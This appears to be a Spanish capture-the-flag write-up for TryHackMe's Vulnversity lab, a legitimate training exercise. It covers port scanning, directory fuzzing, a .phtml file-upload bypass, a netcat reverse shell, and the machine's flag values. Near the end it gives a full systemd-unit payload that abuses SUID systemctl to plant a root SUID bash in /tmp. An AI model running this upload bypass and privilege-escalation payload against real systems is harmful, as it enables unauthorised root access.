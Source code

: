 ## Máquina Vulnversity - Tryhackme

## Vulnerabilidades principales:
* Subida de archivos insegura.
* Abuso de extensión .phtml para ejecutar código PHP malicioso.
* Escalada de privilegios utilizando el binario SUID systemctl

### 1. Reconocimiento
Comando Nmap para realizar escaneo de puertos:
- nmap -sS -n -Pn -p- --open --min-rate 5000 <ip-address> -oN <filename>
![Escaneo Inicial](./screenshots/recon.png)

* -sS: Stealth Scan para agilizar el escaneo
* -n: Evita el DNS.
* -Pn: Evita realizar el descubrimiento de host.
* -p-: Busca en los 65535 puertos.
* --open: Filtra solamente por puertos abiertos.
* --min-rate 5000: Trazar 5000 paquetes por segundo.
* <ip-address>: IP objetivo.
* -oN: Formato Nmap para guardar el output.
* <filename>: Nombre del output.

Puertos encontrados: 21(FTP), 22(SSH), 139(SMB), 445(SMB), 3128(SQUID-PROXY), 3333(HTTP).
Comando Nmap para buscar versión y servicio que corren para dichos puertos:
- nmap -sCV -p21,22,139,445,3128,3333 <ip-adress> -oN <filename>
![Scripts de reconocimiento con Nmap](./screenshots/recon2.png)

* -sCV: Lanza los scripts más populares de reconocimiento y enumera las versiones de los servicios.
* -p<ports>: Enumera los puertos encontrados.

[Evitar FTP y SMB] El script de reconocimiento no nos dice que podemos acceder a el servicio FTP ni tampoco a SMB, ya adelanto que no hay nada que podamos hacer con dichos servicios.
[Visitar la web] Vamos a la web "http://<ip-address>:3333/
![Reconocimiento de la web](./screenshots/recon3.png)
[Hacemos un reconocimiento de la web] Buscamos y analizamos posibles pistas que nos de para poder aprovecharnos de ello.
Usamos "Ctrl + U" para ver el ćodigo fuente en búsqueda de:
- Comentarios que nos otorgue credenciales, pistas, rutas, información sensible, etc.
Pero no encontramos nada interesante.

2.1 Fuzzing
Utilizamos la herramienta Gobuster para hacer fuerza bruta en busqueda de directorios ocultos en la web.
Comando utilizado:
gobuster dir -u http://10.201.64.246 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -t 200
![Fuerza bruta en rutas de la web](./screenshots/recon4.png)
* -u: URL objetivo.
* -w: Diccionario empleado para el ataque de fuerza bruta.
* --no-error: Para que no se muestren los errores en el output.
* -t 200: Para lanzar peticiones con 200 hilos y agilizar el proceso.

Directorios encontrados:
* /images
* /css
* /js
* /fonts
* /internal -> Potencial

[Visitamos /internal] Esta ruta permite la subida de archivos. Podemos intentar subir un código malicioso en php para ganar acceso al sistema.
![Ruta potencialmente vulnerable](./screenshots/recon5.png)
Un simple payload en php para ver si la máquina permite la extensión .php
![Payload](./screenshots/exploit1.png)
![Payload2](./screenshots/exploit2.png)
![Payload fallo](./screenshots/exploit3.png)
El servidor no permite la extensión .php por lo que debemos probar otro tipo de extensión que ejecute php, ya sea:
- php5
- phtml
etc

3. Explotación
[Usamos Burpsuite] para agilizar el proceso y estar probando manualmente cada extensión, podemos usar la herramienta Intruder de Burpsuite para cargar una serie de extensiones que se irán probando, y la respuesta del servidor podemos deducir que esa extensión es válida.
![Burpsuite](./screenshots/exploit4.png)
![Burpsuite proxy](./screenshots/exploit5.png)
Ahora enviamos la solicitud al servidor y la capturamos con Burpsuite
![Captura con Burpsuite](./screenshots/exploit6.png)
Lo mandamos al Intruder para realizar un ataque de tipo Sniper. Esto se utiliza para probar multiples combinaciones de palabras o caracteres.
En este caso, lo utilizamos para probar múltiples extensiones php.
[lanzamos el ataque]
Dependiendo la longitud de la respuesta podemos determinar si es válida o no. Vemos que extensión ".phtml" tiene mayor longitud que las demás.
Podemos cambiar la extensión y probar con .phtml para subir el script malicioso.
![Extension Sniper Attack](./screenshots/exploit8.png)
¡¡Exitoso!!
![Exitoso](./screenshots/exploit9.png)
Ahora nos dirigimos a la ruta /uploads para ver el archivo.


5. Escalar privilegios.
Nos ponemos en escucha con Netcat en nuestra máquina local en el puerto 443. Cuando hagamos click sobre el archivo, nos entablaremos una reverse shell con acceso al sistema objetivo.
![Netcat](./screenshots/exploit10.png)
![Reverse shell](./screenshots/exploit11.png)
Una vez dentro del sistema, ejecutamos comandos de enumeración del sistema.
- whoami: muestra el usuario actual
- id: muestra los grupos a los que pertenece el usuario actual
- lsb_release -a: información del sistema, kernel, etc.
- cat /etc/passwd: usuarios y servicios del sistema
- sudo -l: comandos que podemos ejecutar como root sin proporcionar contraseña
- find / -perm -4000 2>/dev/null: busca por archivos SUID en el sistema.

![Acceso al sistema](./screenshots/privesc1.png)
[/home] encontramos un usuario de nombre "bill". Dentro de este directorio, encontramos la flag -> 8bd7992fbe8a6ad22a63361004cfcedb

Debemos enumerar los archivos SUID los cuales podemos aprovecharnos de ello.
Utilizando el comando: find / -perm -4000 2>/dev/null
podemos buscar por binarios SUID.
Opcionalmente, podemos concatenar con: xargs ls -l
para ver propietario y permisos.
![Listar permisos SUID](./screenshots/privesc2.png)

Una ves realizado el comando, vemos los típicos binarios del sistema, también otro que podemos aprovecharnos como lo es:
systemctl
[Búsqueda en GTObins] en esta página, podemos encontrar como escalar privilegios con binarios con diferentes permisos. En este caso, SUID.
![Busqueda de binario](./screenshots/privesc3.png)


[SUID Payload] Vemos una serie de comandos que podemos ejecutar como root.
Lo primero que haremos será esto:
![Explotación](./screenshots/privesc4.png)

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

Lo que hace este payload es copiar la bash de root en el directorio /tmp/ con nombre de archivo "rootbash"
Luego, concatena otro comando "chmod +s" para otorgarle permisos SUID a la bash que nos permitirá ejecutar la bash como root.
Luego, guarda todo este "echo" en /tmp/root.service

Despues de hacer todo este payload.
![segundoc comando](./screenshots/privesc5.png)
Ejecutamos: /bin/systemctl link /tmp/root.service
![tercer comando](./screenshots/privesc6.png)
Una vez ejecutado, proseguimos con: /bin/systemctl enable --now /tmp/root.service

Cuando ejecutemos este comando, ya tendremos copiada la bash en /tmp con permiso SUID.
![Vemos la shell en /tmp](./screenshots/privesc7.png)
![Vemos la shell en /tmp](./screenshots/privesc8.png)

![Obtenemos privilegios root](./screenshots/privesc9.png)
Ejecutamos: /tmp/rootbash -p
para tener una shell como usuario root
whoami para verificar si somos root.
Máximos privilegios obtenidos!!

a58ff8579f0a9270368d33a9966c7fd5 -> flag root
